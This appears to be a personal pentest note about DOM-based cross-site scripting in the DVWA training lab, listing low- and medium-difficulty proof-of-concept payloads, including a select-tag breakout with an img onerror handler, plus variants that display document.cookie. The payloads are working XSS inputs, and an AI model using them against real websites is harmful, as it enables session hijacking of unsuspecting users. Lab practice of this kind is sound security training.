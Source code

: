 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

LOW

POC:
```
http://dvwa.local/vulnerabilities/xss_d/?default=<script>alert(document.domain.concat("\n").concat(window.origin))</script>
```

Now grab cookie:
```
<script>alert(document.cookie)</script>
```

MEDIUM

POC:
```
/option></select><img src='x' onerror='alert(1)'>
```

Now grab cookie:
```
/option></select><img src='x' onerror='alert(document.cookie)'>
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
